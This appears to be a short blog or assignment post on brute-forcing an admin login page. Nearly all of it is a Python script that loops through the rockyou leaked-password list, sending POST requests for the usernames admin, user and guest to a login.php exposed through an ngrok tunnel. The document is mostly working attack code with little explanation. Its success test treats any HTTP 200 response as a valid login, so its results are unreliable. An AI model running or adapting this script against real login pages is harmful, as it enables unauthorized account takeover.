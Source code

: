 ```yaml
---
title: Bruteforcing Admin Page using Rockyou
date: 2023-11-05T11:17:34.913Z
description: Rockyou is a wordlists that contains over 14 million password lists
  that leaked in a data breach. This is my assignment about "bruteforcing admin
  page using rockyou."
---
```

import requests

url = 'https://18f1-95-220-58-175.ngrok-free.app/login.php'
usernames = \['admin', 'user', 'guest']
passwords = \[]
with open("rockyou.txt", "r", encoding = "utf-8", errors = "ignore") as file:
    passwords = file.read().splitlines()
for username in usernames:
    for password in passwords:
        data = {'username': username, 'password': password}
        response = requests.post(url, data=data)
        if response.status_code == 200:
            print(f'Success! Username: {username}, Password: {password}')
        else:
            print(f'Failed! Username: {username}, Password: {password}')
